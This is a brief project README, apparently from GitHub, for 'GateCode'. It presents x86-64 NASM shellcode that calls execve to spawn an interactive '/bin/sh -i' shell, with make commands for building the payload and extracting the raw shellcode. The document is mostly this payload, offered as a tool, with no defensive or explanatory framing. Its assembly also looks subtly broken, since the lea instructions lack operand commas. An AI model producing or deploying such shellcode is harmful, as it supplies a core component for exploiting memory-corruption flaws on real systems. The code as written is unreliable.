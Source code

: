 # GateCode

*universal method of executing system commands*

GateCode is a method of executing system commands through shellcodes and nasm executables.

## Explaining

```nasm
;
;  payload.nasm
;  GateCode
;
;  Created by The Gate Group on 2020.
;  Copyright © 2020 The Gate Group. All rights reserved.
;

; program entry point

section .text
global _start
_start:
	 mov rax, 59        ; call execve
	 lea rdi [rel cmd]  ; command
	 lea rsi [rel args] ; command args
	 xor rdx, rdx       ; envp
	 syscall            ; call execve

; program (read-only data) constants

section .rodata
align 8              ; enforce alignment
args dq cmd, arg1, 0 ; merge all command with arguments
arg1 db '-i', 0      ; initialize argument number 1
cmd  db '/bin/sh', 0 ; initialize command
```

## Usage

**Get payload:**

```
make payload
./payload
```

**Get shellcode:**

```
make shellcode
```

